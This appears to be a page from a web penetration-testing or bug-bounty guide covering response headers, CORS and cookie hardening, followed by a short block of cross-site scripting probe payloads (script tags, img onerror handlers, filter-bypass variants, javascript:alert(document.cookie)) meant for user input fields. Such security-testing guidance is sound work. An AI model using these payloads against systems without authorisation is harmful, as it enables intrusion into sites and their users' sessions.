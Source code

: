### Information Leak Headers
Remove unnecessary response headers, such as: Server, X-Powered-By, X-AspNet-Version.

**Resources:** https://support.waters.com/KB_Inf/Other/WKB202501_How_to_disable_the_Server_HTTP_header_in_Microsoft_IIS

### CORS Headers
Do not set Access-Control-Allow-Origin to wildcard or reflect arbitrary origins/subdomains.

**Resources:** https://www.freecodecamp.org/news/exploiting-cors-guide-to-pentesting/ \
https://www.youtube.com/watch?v=4KHiSt0oLJ0

**Real-World Examples:** https://www.intigriti.com/researchers/blog/bug-bytes/bug-bytes-46-steal-customer-data-via-cors-misconfiguration-dnsexpire-py-and-badbugbountypickuplines \
https://hackerone.com/reports/958459

## Cookies
All cookies should have the following attributes: Secure, HttpOnly, SameSite: lax or strict.

**Resources:** https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie

**Real-World Examples:** https://nokline.github.io/bugbounty/2024/06/07/Zoom-ATO.html

## Payloads Required Section
This payload list is an advanced version of the short payload list. Please watch the video series before attempting these exploits as some of the payloads have a lower success rate and require a deeper understanding of the application's behavior and vulnerable parameters.

While this list was curated from select payloads from my own personal notes(generated over the course of 3 years), most of the payloads can be found in the sources below. Please see the youtube video series where sources are provided in situations where we use direct content from a third party.

[https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) \
https://book.hacktricks.wiki/en/index.html \
https://portswigger.net/web-security/all-topics

### Cross-Site Scripting (XSS)

**Resources:** [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting) \
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

**Real-World Examples:** https://hackerone.com/reports/881115 \
https://infosecwriteups.com/how-i-made-it-to-google-hof-f1cec85fdb1b \
https://infosecwriteups.com/idor-that-allowed-me-to-takeover-any-users-account-129e55871d8

Enter the following payloads into user input fields and see how they are reflected in the application. If the user input is reflected back unencoded and unfiltered, especially in javascript, then XSS is likely.
```
<b>test</b> 
<script>alert(1)</script>
</scriscriptpt><scrscriptipt>alert()</scriscriptpt>
</script><script>alert(1)</script>
“><script>alert(1)</script>
“/><script>alert(1)</script>

<img src=1 onerror=alert(1)>
“/><img src=x onerror=”alert()”/>
<img/src='1'/onerror=alert(0)>

javascript:alert(document.cookie)

x” onerror=alert(1)>
"onload="alert(1)
```